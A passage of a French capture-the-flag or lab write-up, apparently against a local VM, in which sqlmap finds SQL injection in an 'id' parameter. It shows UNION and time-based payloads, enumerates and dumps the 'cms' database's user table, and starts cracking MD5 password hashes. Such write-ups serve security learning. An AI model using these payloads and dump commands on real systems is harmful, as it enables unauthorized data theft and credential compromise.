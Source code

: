 ```console
[00:11:22] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=14 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=14 UNION ALL SELECT NULL,NULL,CONCAT(0x71,0x68,0x71),NULL,NULL,NULL,NULL-- ScYF
---
[00:11:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 5.0.12
[00:11:22] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.56.101'
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le paramètre testé _id_ est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables (--tables) ainsi que les colonnes (--columns) présentes dans chaque base de données trouvée (--dbs), et tant qu'à faire, autant récupérer tout le contenu de la base de données (--dump-all).

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dbs -v0
--snip--
available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
```

C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL -D cms --tables
--snip--
[00:11:22] [INFO] fetching tables for database: 'cms'
Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+

--snip--

root@blinils:~# sqlmap -u "http://192.168.56.101/index.php?id=14" --dbms=MySQL --dump -D cms -T user
--snip--
[00:11:22] [INFO] fetching columns for table 'user' in database 'cms'
[00:11:22] [INFO] fetching entries for table 'user' in database 'cms'
[00:11:22] [INFO] recognized possible password hashes in column 'user_password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[00:11:22] [INFO] writing hashes to a temporary file '/tmp/sqlmapbMP1dW10777/sqlmaphashes-vbDWaU.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[00:11:22] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
```